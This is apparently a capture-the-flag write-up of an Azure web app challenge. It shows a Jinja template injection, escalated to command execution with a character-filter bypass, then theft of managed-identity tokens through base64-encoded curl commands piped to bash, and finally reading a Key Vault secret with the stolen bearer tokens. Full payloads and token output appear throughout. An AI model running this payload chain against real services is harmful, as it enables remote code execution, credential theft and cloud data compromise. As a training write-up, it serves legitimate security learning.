


# Cloud protected web app

## Challenge



## Solution

When navigating to https://flag2webapp.azurewebsites.net/ we first get a Microsoft login page. Here we log in using the Azure credentials given to us on the OnDemand page, which gives us access to the following webpage.



By passing in
```

{{7*7}}

```
we see it says "Hello 49", indicating a SSTI vulnerability.

We can explore the environment using these
```

{{config.items()}}
{{request.environ}}

```

We can also attempt to get code execution using this,
```

{{request["application"]["__globals__"]["__builtins__"]["__import__"]("os")["popen"]("id")["read"]()}}

```
however it blocks our attempt saying that the characters `;&#_'` are not allowed.

This can be bypassed by replacing all `__` with `\x5f\x5f`.
```

{{request["application"]["\x5f\x5fglobals\x5f\x5f"]["\x5f\x5fbuiltins\x5f\x5f"]["\x5f\x5fimport\x5f\x5f"]("os")["popen"]("id")["read"]()}}

```

Using the character bypass we can look for more environment variables using
```

{{request["application"]["\x5f\x5fglobals\x5f\x5f"]["\x5f\x5fbuiltins\x5f\x5f"]["\x5f\x5fimport\x5f\x5f"]("os")["popen"]("cat /proc/self/environ")["read"]()}}

```
This gives several environment variables, but we're particularly interrested in these two:
```
IDENTITY_ENDPOINT=http://169.254.130.9:8081/msi/token
IDENTITY_HEADER=5d8e39c0-6596-4236-b1d2-d37047bba06b
```
These are used by Azure Managed Identities. 

Managed Identities in Azure is a mechanism for one resource to request access to another resource, like for instance a database, a blob storage or a keyvault without having to hardcode any credentials in the application. Azure injects the two environment variables mentioned above, which can be used to request an access token for the resource.

We want to make an HTTP call from the server to the non-routable 169.254.130.9 IP. That can be done using
```
curl "$IDENTITY_ENDPOINT?resource=https://management.azure.com&api-version=2017-09-01" -H secret:$IDENTITY_HEADER
```

That commands contains several of the blocked characters but we can bypass the blacklist by base64 encoding the entire command, and execute it like this:
```

{{request["application"]["\x5f\x5fglobals\x5f\x5f"]["\x5f\x5fbuiltins\x5f\x5f"]["\x5f\x5fimport\x5f\x5f"]("os")["popen"]("echo Y3VybCAiJElERU5USVRZX0VORFBPSU5UP3Jlc291cmNlPWh0dHBzOi8vbWFuYWdlbWVudC5henVyZS5jb20mYXBpLXZlcnNpb249MjAxNy0wOS0wMSIgLUggc2VjcmV0OiRJREVOVElUWV9IRUFERVI= | base64 -d | bash")["read"]()}}

```

This spits out an access token for us 
```json
{
    "access_token": "eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsIng1dCI6IjJaUXBKM1VwYmpBWVhZR2FYRUpsOGxWMFRPSSIsImtpZCI6IjJaUXBKM1VwYmpBWVhZR2FYRUpsOGxWMFRPSSJ9.eyJhdWQiOiJodHRwczovL21hbmFnZW1lbnQuYXp1cmUuY29tIiwiaXNzIjoiaHR0cHM6Ly9zdHMud2luZG93cy5uZXQvNjgzN2RiOGItNzJkOS00MzQ2LWJiYjQtYzI1MzYxNTBhZGY1LyIsImlhdCI6MTY2Nzg1NDMwOSwibmJmIjoxNjY3ODU0MzA5LCJleHAiOjE2Njc5NDEwMDksImFpbyI6IkUyWmdZSGpnVzhHeFY2ZU42ODJSZTN1L25Ici9HUUE9IiwiYXBwaWQiOiJlMzQ3YWFiZi00MGNlLTQwZTUtOGI4ZC0wMmYxM2YyNDZlYmUiLCJhcHBpZGFjciI6IjIiLCJpZHAiOiJodHRwczovL3N0cy53aW5kb3dzLm5ldC82ODM3ZGI4Yi03MmQ5LTQzNDYtYmJiNC1jMjUzNjE1MGFkZjUvIiwiaWR0eXAiOiJhcHAiLCJvaWQiOiI5ODgzNGVlYS04NjQxLTRjNWEtYjRhYy1jZTlmYzk3Njg1M2EiLCJyaCI6IjAuQVhNQWk5czNhTmx5UmtPN3RNSlRZVkN0OVVaSWYza0F1dGRQdWtQYXdmajJNQk56QUFBLiIsInN1YiI6Ijk4ODM0ZWVhLTg2NDEtNGM1YS1iNGFjLWNlOWZjOTc2ODUzYSIsInRpZCI6IjY4MzdkYjhiLTcyZDktNDM0Ni1iYmI0LWMyNTM2MTUwYWRmNSIsInV0aSI6Ilp2d2ExZ2t1QzAyenpmcEk2bXhVQUEiLCJ2ZXIiOiIxLjAiLCJ4bXNfbWlyaWQiOiIvc3Vic2NyaXB0aW9ucy9hZDExNmYxMS05MjFhLTQzYWQtOGI4MC01YjhhZjkyZTA4MzMvcmVzb3VyY2Vncm91cHMvd2ViLXJnL3Byb3ZpZGVycy9NaWNyb3NvZnQuV2ViL3NpdGVzL2ZsYWcyd2ViYXBwIiwieG1zX3RjZHQiOjE2MDEzNjQ4NDd9.Q3lVW9IJ0eILhrsZa58J_DoGyKdsBbhaD_s98fnLUr_SVITQ67Dv7vIc7ppgVVrMlgTCjjBidQXoOP8W8qTtkhuowd7ORyQIRYahXE7NxSQtNxbOIUDKvYBkq1-rNI2MyLf5RRL1lVmXogI1MqZvcgWZQDQ7NionEflcAuvbrzvduKfCT7DraxB-uZuGWSOQxLGOVeVvIHpeMtx5MuHzY_DSXe1wv7pXoaRwYvfUq_6GKOtxut2ABS73WxQHFObiKjWVjCy4s_tdAQsPa3YB0PeEVJD1ZUbBDBRVlzSJDGtubD-CC_oXj4Bgoq_1SFEUP9KYjh11MuDzRanhM0HbEw",
    "expires_on": "11/08/2022 20:56:48 +00:00",
    "resource": "https://management.azure.com",
    "token_type": "Bearer",
    "client_id": "e347aabf-40ce-40e5-8b8d-02f13f246ebe"
}

```

From here we can list the subscriptions and resources available to us.

```sh
curl "https://management.azure.com/subscriptions/ad116f11-921a-43ad-8b80-5b8af92e0833/resources?api-version=2014-04-01" -H "Authorization: Bearer <Token>
```
Result
```json
{
    "value": [{
            "id": "/subscriptions/ad116f11-921a-43ad-8b80-5b8af92e0833/resourceGroups/web-rg/providers/Microsoft.KeyVault/vaults/flag2vault70CF316D",
            "name": "flag2vault70CF316D",
            "type": "Microsoft.KeyVault/vaults",
            "location": "northeurope",
            "tags": {}
        }
    ]
}
```
So here we see a keyvault called `flag2vault70CF316D` exists.

The access token we have is for the https://management.azure.com resource. The challenge description tells us the flag is in an Azure Key Vault, which means we need a token for https://vault.azure.net resource instead. No problem, we just base64 encode the following command where we're indicating the correct resource, and execute it just like earlier.

```sh
curl "$IDENTITY_ENDPOINT?resource=https://vault.azure.net&api-version=2017-09-01" -H secret:$IDENTITY_HEADER
```

The SSTI command ends up like this
```

{{request["application"]["\x5f\x5fglobals\x5f\x5f"]["\x5f\x5fbuiltins\x5f\x5f"]["\x5f\x5fimport\x5f\x5f"]("os")["popen"]("echo Y3VybCAiJElERU5USVRZX0VORFBPSU5UP3Jlc291cmNlPWh0dHBzOi8vdmF1bHQuYXp1cmUubmV0JmFwaS12ZXJzaW9uPTIwMTctMDktMDEiIC1IIHNlY3JldDokSURFTlRJVFlfSEVBREVS | base64 -d | bash")["read"]()}}

```

And again we get back an access token, but this time for the correct resource.
```json
{"access_token":"eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsIng1dCI6IjJaUXBKM1VwYmpBWVhZR2FYRUpsOGxWMFRPSSIsImtpZCI6IjJaUXBKM1VwYmpBWVhZR2FYRUpsOGxWMFRPSSJ9.eyJhdWQiOiJodHRwczovL3ZhdWx0LmF6dXJlLm5ldCIsImlzcyI6Imh0dHBzOi8vc3RzLndpbmRvd3MubmV0LzY4MzdkYjhiLTcyZDktNDM0Ni1iYmI0LWMyNTM2MTUwYWRmNS8iLCJpYXQiOjE2Njc4NTQ2MzEsIm5iZiI6MTY2Nzg1NDYzMSwiZXhwIjoxNjY3OTQxMzMxLCJhaW8iOiJFMlpnWUFoVnFaZ2xLbEs0L2ZQWnFiclZ1cnMyQVFBPSIsImFwcGlkIjoiZTM0N2FhYmYtNDBjZS00MGU1LThiOGQtMDJmMTNmMjQ2ZWJlIiwiYXBwaWRhY3IiOiIyIiwiaWRwIjoiaHR0cHM6Ly9zdHMud2luZG93cy5uZXQvNjgzN2RiOGItNzJkOS00MzQ2LWJiYjQtYzI1MzYxNTBhZGY1LyIsIm9pZCI6Ijk4ODM0ZWVhLTg2NDEtNGM1YS1iNGFjLWNlOWZjOTc2ODUzYSIsInJoIjoiMC5BWE1BaTlzM2FObHlSa083dE1KVFlWQ3Q5VG16cU0taWdocEhvOGtQd0w1NlFKTnpBQUEuIiwic3ViIjoiOTg4MzRlZWEtODY0MS00YzVhLWI0YWMtY2U5ZmM5NzY4NTNhIiwidGlkIjoiNjgzN2RiOGItNzJkOS00MzQ2LWJiYjQtYzI1MzYxNTBhZGY1IiwidXRpIjoiUDdwdi1faDNqRVdkTmxxRzhzSk9BQSIsInZlciI6IjEuMCIsInhtc19taXJpZCI6Ii9zdWJzY3JpcHRpb25zL2FkMTE2ZjExLTkyMWEtNDNhZC04YjgwLTViOGFmOTJlMDgzMy9yZXNvdXJjZWdyb3Vwcy93ZWItcmcvcHJvdmlkZXJzL01pY3Jvc29mdC5XZWIvc2l0ZXMvZmxhZzJ3ZWJhcHAifQ.pOR8j8klQSnQwXE-Rq_zW15ouqhsDOMY8Voyd5mJ61tVDT-yzhNzetT6BpLUGWfbU4jSPkgHKpSuwD1ZKujI7oITjPYAQY04nSVbcxE1VJ1mdFYAkSFDwOvt_8mTCdEjE4J3D8leCK51fMwFzmChiSH9DtPvexZ2RjoDD0NuBqHjlKzeTXbRdMlRSjU2ND3fgrrc7wuWCinG2fdmyQ3dO28yvnKQLudosZ7vbNa0Uc_oRsZzpS48_AKzpWMhBWrO-FNkaCKMNKqQHkB5r4OokO_3f2-5I3ZNTsgMiyCgyV8rTZMMaQj4IC5yEjsMkYqzffy8hbP2QsCbT0p9QZHnfw","expires_on":"11/08/2022 21:02:10 +00:00","resource":"https://vault.azure.net","token_type":"Bearer","client_id":"e347aabf-40ce-40e5-8b8d-02f13f246ebe"}
```
This time we've got a token for the correct resource.

Next we can use this access token to examine the Key Vault. We can for example use the Azure REST API for this. Also, this can be done from any internet-connected machine, it doesn't have to be from the vulnerable web app.

```sh
$ curl "https://flag2vault70CF316D.vault.azure.net/secrets?api-version=2016-10-01" -H "Authorization: Bearer $access_token"
```

```json
{
    "value": [{
            "id": "https://flag2vault70cf316d.vault.azure.net/secrets/flag",
            "attributes": {
                "enabled": true,
                "created": 1666350404,
                "updated": 1666350404,
                "recoveryLevel": "Recoverable+Purgeable"
            }
        }
    ],
    "nextLink": null
}

```
We see there is a vault called secrets, and a secret called flags.

Finally we get the flag using
```sh
$ curl "https://flag2vault70CF316D.vault.azure.net/secrets/flag?api-version=2016-10-01" -H "Authorization: Bearer $access_token"
```

Response is
```json
{
    "value": "EPT{e3ea68ae-172f-4f31-a4a5-bafd33d89bce}\n",
    "id": "https://flag2vault70cf316d.vault.azure.net/secrets/flag/c69df361b1d340b1aaaaef6ac7b617b4",
    "attributes": {
        "enabled": true,
        "created": 1666350404,
        "updated": 1666350404,
        "recoveryLevel": "Recoverable+Purgeable"
    }
}
```

Flag
```
EPT{e3ea68ae-172f-4f31-a4a5-bafd33d89bce}
```